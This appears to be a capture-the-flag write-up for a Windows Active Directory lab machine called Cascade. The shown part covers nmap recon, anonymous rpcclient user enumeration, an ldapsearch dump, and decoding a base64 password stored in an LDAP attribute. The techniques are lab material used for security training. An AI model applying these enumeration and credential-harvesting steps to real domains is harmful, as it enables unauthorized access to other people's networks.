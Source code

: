 ```yaml
---
title: "Cascade"
layout: post
---
```


Operating System: Windows <br>
Rating: <span style="color:orange">Medium</span> <br>
My Rating: <span style="color:orange">Medium</span> <br>

## Overview
Enumerate possible user accounts with SMB then poke at LDAP to find a base64 encoded password that sticks out. With those credentials you can login to an SMB user and find a registery
file that contains set of credentials encoded in hex. These credentials will then give us access to a .NET application that we can reverse to find out how password are being decrypted
for a database. This will give us access to Active Directory via remote login which we can "scavenge" the recycle bin and find credentials for an Administrator account.

## Recon
As always, Nmap the box to find open ports which we can enumerate further. The following ports were open:
{% highlight bash %}
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-04-04 13:39:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2m41s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-04-04T13:40:36
|_  start_date: 2020-04-04T11:27:34
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
{% endhighlight %}
Just by seeing DNS (port 53), SMB (port 139) and ldap (port 389) I can tell we are dealing with Active Directory. <br>
The LDAP banner confirms it as well as giving us the domain name 'cascade.local'. <br>
Quick tip: if you take a look at the hostname 'CASC-DC1', DC usually stands for domain controller which is a massive hint that the machine is an Active Directory.
## Enumeration
### RPC
First things first, lets try leak some usernames since port 5985 is open which is typically for remote login. There are several ways to enumerate usernames but the quickest is to login anonymously with rpcclient by specifying an empty username/password and using the 'enumdomusers' command:
{% highlight bash %}
root@crab:~/Desktop/hax/box/cascade# rpcclient 10.10.10.182 -U ''
Enter password: 
rpcclient $> enumdomusers
user:[CascGuest] rid:[0x1f5]
user:[arksvc] rid:[0x452]
user:[s.smith] rid:[0x453]
user:[r.thompson] rid:[0x455]
user:[util] rid:[0x457]
user:[j.wakefield] rid:[0x45c]
user:[s.hickson] rid:[0x461]
user:[j.goodhand] rid:[0x462]
user:[a.turnbull] rid:[0x464]
user:[e.crowe] rid:[0x467]
user:[b.hanson] rid:[0x468]
user:[d.burman] rid:[0x469]
user:[BackupSvc] rid:[0x46a]
user:[j.allen] rid:[0x46e]
user:[i.croft] rid:[0x46f]
{% endhighlight %}
You can use the magical sed and awk commands to keep just the usersnames or do it manually (if you do it manually i respect your dedication). <br> 
Here is a command that will make your life a breeze:
{% highlight bash %}
cat temp.txt | awk -F\[ {'print $2'} | awk -F\] {'print $1'} > users.txt
cat users.txt
CascGuest
arksvc
s.smith
r.thompson
util
j.wakefield
s.hickson
j.goodhand
a.turnbull
e.crowe
b.hanson
d.burman
BackupSvc
j.allen
i.croft
{% endhighlight %}
### LDAP
We have usernames now but we still possible password which can be found using ldapsearch. Lets start by dumping everything into a file using anonymous LDAP login and go on from there.
{% highlight bash %}
ldapsearch -x -h 10.10.10.182 -b dc=cascade,dc=local > ldap/anonymous.ldap
{% endhighlight %}
Using grep on a file rather than calling ldapsearch each time is probably the best idea; in this case I printed out the file that contained the output of ldap and used grep to filter out anything that was unique. <br> 
Sifting through the output, "cascadeLegacyPwd: clk0bjVldmE=" stands out and decoding the base64 gives us a potential password.
{% highlight bash %}
cat ldap/anonymous.ldap | sort | uniq -c
...
   1  cade.local                                                                                                                      
      3  cal                                                                                                                             
      1  =cascade,DC=local                                                                                                               
      3  cascade,DC=local                                                                                                                
      1 cascadeLegacyPwd: clk0bjVldmE=                                                                                                   
      3   cascade.local                                                                                                                  
      1 # cascade.local                                                                                                                  
      1 # CASC-DC1, Domain Controllers, cascade.local  
...
echo clk0bjVldmE= | base64 -d
rY4n5eva
{% endhighlight %}

